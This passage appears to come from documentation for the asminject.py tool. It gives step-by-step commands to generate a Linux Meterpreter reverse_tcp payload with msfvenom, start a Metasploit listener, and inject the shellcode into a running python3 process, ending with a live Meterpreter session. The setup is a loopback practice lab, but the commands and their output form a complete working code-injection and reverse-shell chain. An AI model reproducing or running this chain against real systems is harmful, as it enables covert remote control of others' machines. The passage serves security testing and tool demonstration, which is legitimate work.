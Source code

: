 In a separate terminal, generate a Meterpreter payload, then launch a listener:

```
# msfvenom -p linux/x64/meterpreter/reverse_tcp -f raw -o lmrt11443 LHOST=127.0.0.1 LPORT=11443

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Saved as: lmrt11443

# msfconsole

...omitted for brevity...
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 127.0.0.1
LHOST => 127.0.0.1
msf6 exploit(multi/handler) > set LPORT 11443
LPORT => 11443
msf6 exploit(multi/handler) > exploit


[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:11443 
```

In a third terminal, locate the process and inject the Meterpreter payload into it. Note the use of the `--precompiled` option to specify the `lmrt11443` shellcode.

```
# ps auxww | grep python3

root     2144475  0.0  0.1  10644  5172 pts/2    S+   15:44   0:00 sudo python3 practice/python_loop.py
root     2144476  0.5  0.2  13884  8088 pts/2    S+   15:44   0:00 python3 practice/python_loop.py

# python3 ./asminject.py 2144476 asm/x86-64/execute_precompiled.s --stop-method "slow" --precompiled lmrt11443

...omitted for brevity...
```

You should see the following pop up in the third terminal:

```
[*] Sending stage (3008420 bytes) to 127.0.0.1
[*] Meterpreter session 1 opened (127.0.0.1:11443 -> 127.0.0.1:53682) at 2021-06-07 14:44:14 -0700

meterpreter > sysinfo
Computer     : 192.168.218.135
OS           : Debian  (Linux 5.10.0-kali3-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
